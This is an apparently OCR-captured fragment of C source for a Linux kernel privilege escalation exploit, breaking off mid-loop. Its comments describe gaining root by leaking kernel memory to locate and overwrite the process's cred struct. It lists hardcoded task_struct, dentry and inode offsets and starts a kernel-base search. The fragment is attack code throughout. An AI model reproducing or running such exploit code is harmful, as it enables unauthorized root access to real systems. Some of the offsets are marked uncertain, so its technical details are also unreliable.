 ```
    addr = (char *)mmap(NULL, BUF_SIZE, PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_PRIVATE, 0, 0);
    if ( addr == MAP_FAILED )
        error("mmap");

    ceiling = addr + BUF_SIZE;

    printf("Mapped buffer %p:0x%x\n", addr, BUF_SIZE);

    printf("Scanning kernel memory for comm signature...\n");

    /*
     * We escalate to root by modifying our cred struct in memory.  We first
     * find it by leaking kernel memory one chunk at a time and applying a
     * simple heuristic.
     *
     * Pointers to our creds reside next to the user-controllable comm field in
     * task_struct:
     *
     *     const struct cred __rcu *real_cred;
     *     const struct cred __rcu *cred;
     *     char comm[TASK_COMM_LEN];
     *
     * Scan memory for our unique comm string, then verify that the two prior
     * qwords look like kernel pointers.
     */

    offset = 0;

    /* Anciety starts RKM exploit from here ! */

    unsigned long kernel_addr = 0x0;
    char *ptr;
    unsigned long t_addr;

    /*
     * Found offset 
     * (may not be useful, debug it to make sure it is right, since the format is
     * messy about pointers and pointers to pointers..)
     * (If you only want exact offsets, see exploit process below.. Not this one)
     *
     * init_task @ kernel_addr + 0xc10480
     * fs @ init_task + 0x568
     * root dentry @ fs + 0x30
     * entry name @ dentry + 0x20(0x24?)
     * entry name string @ *(entry name + 0x8(0x4?))
     * subdirs @ dentry + 0xa0
     * dentry payload = subdirs @ subdirs - 0x90
     * subdirs next @ *subdirs
     * subdirs prev @ *(subdirs + 8)
     * inode @ dentry + 0x30
     * inode->i_mapping @ inode + 48
     * inode->i_data @ inode + 352
     * inode->i_data.nrpages @ inode + 440
     * address_space->i_mmap @ address_space + 32
     * page->mapping @ page + 8
     * address_space->radix_tree_root @ address_space + 0
     * radix_tree_root->gfp_mask @ radix_tree_root + 8
     * radix_tree_root->rnode @ radix_tree_root + 16
     */

    /* searching for kernel base */
    while (1) {
    	kernel_addr = PAGE_OFFSET + offset;
```
